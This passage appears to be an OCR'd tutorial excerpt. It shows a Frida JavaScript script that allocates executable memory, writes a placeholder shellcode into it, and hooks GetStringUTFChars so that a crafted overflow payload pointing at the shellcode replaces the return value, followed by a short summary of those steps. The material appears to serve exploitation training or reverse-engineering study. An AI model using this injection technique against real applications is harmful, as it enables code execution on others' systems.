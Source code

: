 ```js
    var memoryForPayload = Memory.alloc(100);
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];

    // Write your shellcode here
    var shellcode = [YOUR_SHELLCODE_GOES_HERE];
    var memoryForShellcode = Memory.alloc(shellcode.length + 20);

    // Change memory permissions to make it executable
    Memory.protect(ptr(memoryForShellcode), shellcode.length + 20, 'rwx');

    // Write the shellcode into the allocated memory
    Memory.writeByteArray(memoryForShellcode, shellcode);

    // Extract the shellcode address and adjust for endianness
    var shellcodeAddress = memoryForShellcode.toString().match(/[\s\S]{1,2}/g) || [];
    payload.push(parseInt(shellcodeAddress[4], 16), parseInt(shellcodeAddress[3], 16), parseInt(shellcodeAddress[2], 16), parseInt(shellcodeAddress[1], 16));
    Memory.writeByteArray(memoryForPayload, payload);

    // Log the memory contents for verification
    console.log(hexdump(memoryForShellcode, { length: 128 }));

    // Hook GetStringUTFChars and replace the return value with our crafted payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Summary

- **Memory Allocation:** We allocate memory and change its permissions to allow execution.
- **Shellcode Injection:** The shellcode is injected into the allocated memory.
- **Execution:** The script is set up to replace the return value of `GetStringUTFChars` with the payload that includes the shellcode.
- **Verification:** Use `hexdump()` to inspect the shellcode in memory and ensure it's correctly placed.

This approach demonstrates how to write and execute shellcode directly in memory using Frida.
